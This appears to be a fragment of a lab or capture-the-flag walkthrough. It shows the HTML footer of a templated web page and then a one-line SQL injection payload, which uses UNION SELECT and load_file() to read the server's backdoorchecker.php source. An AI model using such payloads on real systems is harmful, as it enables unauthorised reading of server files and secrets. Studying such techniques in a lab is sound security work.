 ```php
					<p class="footer-text m-0">
						<!-- Link back to Colorlib can't be removed. Template is licensed under CC BY 3.0. -->
Copyright &copy;<script>document.write(new Date().getFullYear());</script> All rights reserved | This template is made with <i class="fa fa-heart-o" aria-hidden="true"></i> by <a href="https://colorlib.com" target="_blank">Colorlib</a>
<!-- Link back to Colorlib can't be removed. Template is licensed under CC BY 3.0. -->
					</p>
					<div class="footer-social d-flex align-items-center">
						<a href="https://twitter.com/cneelis"><i class="fa fa-twitter"></i></a>
						<a href="https://twitter.com/giovannichhatta"><i class="fa fa-twitter"></i></a>
					</div>
				</div>
			</div>
		</footer>	
		<!-- End footer Area -->

		<script src="js/vendor/jquery-2.2.4.min.js"></script>
		<script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.12.9/umd/popper.min.js" integrity="sha384-ApNbgh9B+Y1QKtv3Rn7W3mgPxhU9K/ScQsAP7hUibX39j7fakFPskvXusvfa0b4Q" crossorigin="anonymous"></script>
		<script src="js/vendor/bootstrap.min.js"></script>			
		<script type="text/javascript" src="https://maps.googleapis.com/maps/api/js?key=AIzaSyBhOdIF3Y9382fqJYt5I_sswSrEw5eihAA"></script>
			<script src="js/easing.min.js"></script>			
		<script src="js/hoverIntent.js"></script>
		<script src="js/superfish.min.js"></script>	
		<script src="js/jquery.ajaxchimp.min.js"></script>
		<script src="js/jquery.magnific-popup.min.js"></script>	
		<script src="js/owl.carousel.min.js"></script>			
		<script src="js/jquery.sticky.js"></script>
		<script src="js/jquery.nice-select.min.js"></script>			
		<script src="js/parallax.min.js"></script>	
		<script src="js/waypoints.min.js"></script>
		<script src="js/jquery.counterup.min.js"></script>			
		<script src="js/mail-script.js"></script>	
		<script src="js/main.js"></script>	
	</body>
</html>



</td>
		 </tr>
		</table>
```

 backdoorchecker.php

```sql
1' UNION SELECT 1,load_file('c:\\xampp\\htdocs\\admin\\backdoorchecker.php'),3;-- -
```
